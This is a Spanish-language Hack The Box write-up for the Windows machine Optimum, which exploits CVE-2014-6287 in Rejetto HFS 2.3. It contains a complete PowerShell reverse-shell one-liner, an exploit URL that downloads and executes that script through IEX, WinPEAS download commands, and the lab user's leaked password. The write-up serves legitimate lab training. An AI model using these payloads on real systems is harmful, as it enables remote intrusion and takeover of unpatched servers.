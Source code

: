 ```yaml
---
title: Writeup optimum - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - optimum
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina optimum en Hack The Box.
keywords:
  - writeup optimum
  - hack the box optimum
  - resolución máquina optimum
  - optimum hack the box
  - htb optimum
---
```

-------------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Windows/Optimum)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=4ZEEfXjj5GY)|[Parte2](https://www.youtube.com/watch?v=LQ_cm_2EuHs)|[Parte3](https://www.youtube.com/watch?v=G8tLOBy31OE)
- 🧠 **Explicación resumida**: 

---

#easy #windows #nmap #ping

----
# Guided Mode

1)¿Qué versión de HttpFileServer se está ejecutando en el puerto TCP 80?
	2.3

2)¿Cuál es el ID CVE de 2014 para una vulnerabilidad de ejecución remota de código en la función findMacroMarker de la versión 2.3 de HttpFileServer?
	[[CVE-2014-6287]]

3)¿Con qué usuario se ejecuta el servidor web? Indique el nombre de usuario sin el dominio.
	kostas

*La pregunta anterior era la flag de user.txt*
5)Pregunta opcional: ¿Cuál es la contraseña del usuario kostas?
	kdeEjDowkS*

6)¿Qué módulo de reconocimiento de Metasploit se puede utilizar para enumerar las posibles rutas de escalada de privilegios en un sistema comprometido?
	local_exploit_suggester


--------

# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.8
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.10.8 -oG allPorts
nmap -sCV -p80 10.10.10.8 -oN target
```

![[Optimum1.png]]![[Optimum2.png]]
*TTL:* Maquina Windows
*Puertos:*
	`80` HTTP
*Datos importantes:*
	En el puerto 80 esta corriendo el servicio httpd 2.3

---------
# [[Whatweb-wappalyzer]] y [[Gobuster]]

```shell
whatweb http://10.10.10.8
```

![[Optimum3.png]]

![[Optimum4.png]]
Nos vuelve a informar que es un httpserver, como el escaneo de *NMAP*

-------
# Enumeracion y busqueda del [[CVE-2014-6287]]

Buscando en google *httpd 2.3 vulnerability* me encontre que se llama rejetto el nombre del software para compartir archivos a traves de http
![[Optimum5.png]]
Y recorde que haciendo click en esa parte de abajo a la derecha me mandaba a la pagina de https://www.rejetto.com/hfs/
![[Optimum6.png]]

-------------
# Explotacion [[CVE-2014-6287]] y [[Reverse shell]]

Vamos a crear un archivo reverse.ps1 con el siguiente payload. Esto lo sacamos de [payloadallthethings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell)

![[Optimum10.png]]
Vamos a usar el script de [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1) para mandarnos la [[Reverse shell]]

```ps1
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


Vamos a estar hosteando el archivo con un server de [[python3 -m http.server]] con el comando `python3 -m http.server 80` para que se descarge el archivo *reverse.ps1* con el cual vamos a inyectar el payload

![[Optimum9.png]]
Mientras estamos en escucha con [[rlwrap nc -lvnp 443]] 

Ejecutamos la vulnerabilidad mediante este link, solamente cambiando la ip desde la cual se va a descargar el archivo

`http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString(%27http%3a//10.10.16.15/reverse.ps1%27).}`

![[Optimum7 1.png]]
Ya estamos adentro de la maquina

-------
# Opcional Enumeracion con [[WinPEAS]] y contraseña del usuario kostas

Usamos el comando [[systeminfo]]
![[Optimum11.png]]
Y podemos ver que es un *Windows Server 2012 R2 Standard* de 64 bits

Vamos a hacernos un [[python3 -m http.server]] con el comando `python3 -m http.server 80` en el directorio que tengamos el [[WinPEAS]]

Luego desde la maquina victima vamos a descargarlo con [[wget]] usando el comando `wget http://10.10.16.15/winPEASx64.exe -outfile winPEASx64.exe` 
![[Optimum12.png]]
Para posteriormente ejecutarlo `./winPEASx64 > win` mandando el output a un archivo que se llame *win* una vez que pase un tiempo y termine el escaneo, vamos a abrir con [[type]] el archivo *win* con el comando `type win`

Y vemos estas credenciales de Autologon, asi que ya tenemos la contraseña del usuarios kostas
![[Optimum13.png]]
kostas:kdeEjDowkS*

-----------
# Escalada de privilegios


https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/optimum-writeup-w-o-metasploit




![[Optimum8.png]]


-------
# Notas

Un servidor HTTP de archivos, también conocido como HFS (HTTP File Server), es una herramienta que permite a los usuarios compartir archivos a través de un protocolo HTTP

-------
# Creditos
Nos ayudamos de [[searchsploit]] con el comando `searchsploit -m windows/webapps/49125.py` y vimos este exploit para guiarnos
[Writeup de 0xdf] (https://0xdf.gitlab.io/2021/03/17/htb-optimum.html)
